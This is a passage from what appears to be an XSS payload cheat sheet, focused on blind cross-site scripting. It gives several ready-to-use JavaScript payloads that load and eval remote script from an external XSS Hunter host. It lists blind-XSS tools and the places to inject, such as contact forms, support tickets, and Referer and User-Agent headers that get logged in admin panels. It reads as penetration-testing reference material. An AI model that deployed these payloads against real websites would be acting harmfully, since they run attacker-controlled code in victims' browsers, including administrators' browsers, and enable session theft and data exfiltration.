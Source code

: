 ```html
    }, 2000);
}
</script>
</html>
```

## Blind XSS

### XSS Hunter

Available at [https://xsshunter.com/app](https://xsshunter.com/app)

> XSS Hunter allows you to find all kinds of cross-site scripting vulnerabilities, including the often-missed blind XSS. The service works by hosting specialized XSS probes which, upon firing, scan the page and send information about the vulnerable page to the XSS Hunter service.

```javascript
"><script src=//yoursubdomain.xss.ht></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'https://yoursubdomain.xss.ht\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//yoursubdomain.xss.ht");a.send();</script>

<script>$.getScript("//yoursubdomain.xss.ht")</script>
```

### Other Blind XSS tools

- [sleepy-puppy - Netflix](https://github.com/Netflix-Skunkworks/sleepy-puppy)
- [bXSS - LewisArdern](https://github.com/LewisArdern/bXSS)
- [ezXSS - ssl](https://github.com/ssl/ezXSS)

### Blind XSS endpoint

- Contact forms
- Ticket support
- Referer Header
  - Custom Site Analytics
  - Administrative Panel logs
- User Agent
  - Custom Site Analytics
  - Administrative Panel logs
- Comment Box
  - Administrative Panel

### Tips

You can use a [Data grabber for XSS](#data-grabber-for-xss) and a one-line HTTP server to confirm the existence of a blind XSS before deploying a heavy blind-XSS testing tool.
